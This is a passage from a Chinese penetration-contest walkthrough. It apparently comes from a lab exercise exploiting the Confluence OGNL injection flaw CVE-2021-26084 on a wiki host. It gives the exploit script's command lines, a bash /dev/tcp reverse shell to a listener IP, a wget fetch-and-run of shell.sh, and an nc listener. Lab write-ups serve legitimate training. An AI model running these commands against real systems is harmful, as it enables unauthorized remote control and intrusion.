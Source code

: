 ![image-20220528130454000000-1656056093710877.png](img/中小型企业环境网络安全渗透赛 local/4aff1236548a42e955b62101daf6ce73.png)

具有写权限

```
python3 cve-2021-26084_confluence_rce.py -u http://192.168.50.40:8090 -c "ls -la"
```

![image-20220530153750000000-1656056095566627.png](img/中小型企业环境网络安全渗透赛 local/00f141d39131ba78f3c20afaf824097e.png)

##### 任务7：wiki主机反弹shell（T1059-使用恶意命令和脚本）

```sh
#在桌面新建shell.sh，把下面的代码写到文件中
IP为mysql主机的IP
bash -i >& /dev/tcp/56.47.33.75/9999 0>&1
```

上传shell.sh文件到web上

![image-20220530154050000000-1656056097333084.png](img/中小型企业环境网络安全渗透赛 local/383fc83617d16716437e4dd41e4b5e4a.png)

下载shell.sh到wiki的tmp目录下

```python
双引号内的IP为web的IP，具体路径以上传的路径为准
python3 cve-2021-26084_confluence_rce.py -u http://192.168.50.40:8090/ -c "wget http://56.47.33.65/xxx/shell.sh -O /tmp/shell.sh"
```

![image-20220530154234000000-1656056098991929.png](img/中小型企业环境网络安全渗透赛 local/6b25e6e06cc9e2e4de14b9082123a53e.png)

添加执行权限

```
python3 cve-2021-26084_confluence_rce.py -u http://192.168.50.40:8090/ -c "chmod 777 /tmp/shell.sh"
```

![image-20220528130522000000-1656056100663070.png](img/中小型企业环境网络安全渗透赛 local/8aefff665cd3262000ea61c42ee08169.png)

kali开启监听

在mysql主机反弹的shell中执行命令：

```
nc -lvp 9999
```

![image-20220530163732000000-1656056102339123.png](img/中小型企业环境网络安全渗透赛 local/666cbf157c9aeffd3e314ca9c8799d60.png)

执行shell.sh，成功反弹shell

```sh
python3 cve-2021-26084_confluence_rce.py -u http://192.168.50.40:8090/ -c "bash /tmp/shell.sh"
```

![image-20220530164658000000-1656056104106456.png](img/中小型企业环境网络安全渗透赛 local/963af5c7aa6297c3fc4fa7fd7461913c.png)
